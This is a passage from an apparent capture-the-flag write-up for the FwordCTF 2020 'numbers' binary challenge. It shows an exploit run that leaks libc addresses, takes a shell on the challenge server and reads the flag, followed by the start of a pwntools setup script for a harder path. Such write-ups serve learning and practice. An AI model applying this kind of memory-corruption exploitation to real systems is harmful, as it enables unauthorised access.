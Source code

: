 With libc version and location in hand, get a shell.

Output:

```bash
# ./exploit-easy.py
[*] '/pwd/datajerk/fwordctf2020/numbers/numbers'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/pwd/datajerk/fwordctf2020/numbers/libc-database/libs/libc6_2.28-0ubuntu1_amd64/ld-2.28.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/pwd/datajerk/fwordctf2020/numbers/libc-database/libs/libc6_2.28-0ubuntu1_amd64/libc-2.28.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to numbers.fword.wtf on port 1237: Done
[*] atoi: 0x7fa9af25e470
[*] baselibc: 0x7fa9af21c000
[*] Loaded 196 cached gadgets for '/pwd/datajerk/fwordctf2020/numbers/libc-database/libs/libc6_2.28-0ubuntu1_amd64/libc-2.28.so'
[*] pop_rdi: 0x7fa9af23fa6f
[*] Switching to interactive mode
$ id
uid=1000(fword) gid=1000(fword) groups=1000(fword)
$ ls -l
total 32
-rw-r--r-- 1 root root    42 Aug 29 00:23 flag.txt
-rwxr-xr-x 1 root root  6120 Aug 29 15:39 numbers
-rwxr-xr-x 1 root root 18744 Aug 29 00:23 ynetd
$ cat flag.txt
FwordCTF{s1gN3d_nuMb3R5_c4n_b3_d4nG3r0us}
```


### Hard Path: Setup

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./numbers')
binary.symbols['main'] = 0x9c5
binary.symbols['entry'] = binary.symbols['main'] + 1
context.log_level = 'INFO'
context.log_file = 'log.log'

'''
# local libc
libc = binary.libc
'''
# task libc
libid = 'libc6_2.28-0ubuntu1_amd64'
libpath = os.getcwd() + '/libc-database/libs/' + libid + '/'
ld = ELF(libpath + 'ld-2.28.so')
libc = ELF(libpath + 'libc-2.28.so')
#'''
```